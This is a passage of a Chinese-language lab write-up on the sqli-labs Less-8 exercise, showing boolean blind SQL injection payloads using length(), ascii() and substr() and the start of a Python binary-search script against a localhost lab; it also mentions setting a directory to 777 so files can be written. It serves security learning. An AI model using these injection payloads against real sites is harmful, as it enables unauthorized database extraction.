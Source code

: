 将这个目录修改为所有人可读可写（777），然后就能写入文件了

![image-20250427182644653](https://marin-1347161933.cos.ap-guangzhou.myqcloud.com/img/image-20250427182644653.png)

![image-20250427182703187](https://marin-1347161933.cos.ap-guangzhou.myqcloud.com/img/image-20250427182703187.png)

#### lab8（bool盲注）

先常规测试，使用 `order by` 测试列数，发现4的时候没有显示，但是修改为3的时候会有输出，猜测可以使用这个来盲注

这题使用的是布尔盲注，记录一下布尔盲注的过程

1. 盲注库名长度

   ```sql
   and length((payload))>1
   ```
2. 利用ascii解数据库名称

   > `ascii()` 判断字符的ascii值
   >
   > `substr((payload),2,1)` 截取字符，表示从第二个字符开始截取一个字符
   >

   ```sql
   ascii(substr((payload),1,1))>1
   ```

   利用长度的值来判断

   ```
   0^(ascii(substr((payload),1,1))=110)
   ```

   利用和0异或来判断是否正确

到这题试试

```
?id=1' and length(database())=8--+
```

![image-20250428163042137](https://marin-1347161933.cos.ap-guangzhou.myqcloud.com/img/image-20250428163042137.png)

```
?id=1' and ascii(substr((database()),1,1))>1--+
```

![image-20250428162300618](https://marin-1347161933.cos.ap-guangzhou.myqcloud.com/img/image-20250428162300618.png)

![image-20250428162400158](https://marin-1347161933.cos.ap-guangzhou.myqcloud.com/img/image-20250428162400158.png)

写个脚本试试，研究了一下二分法

```python
import requests

url = "http://localhost:5678/Less-8/"

def get_length(payload):
    left, right = 1, 100  
    while left <= right:
        mid = (left + right) // 2
        test_payload = f"1' and length(({payload})) > {mid} --+"
        send_url = url + f"?id={test_payload}"
        res = requests.get(send_url)

        if "You are in" in res.text:
            left = mid + 1  
        else:
            right = mid - 1  
```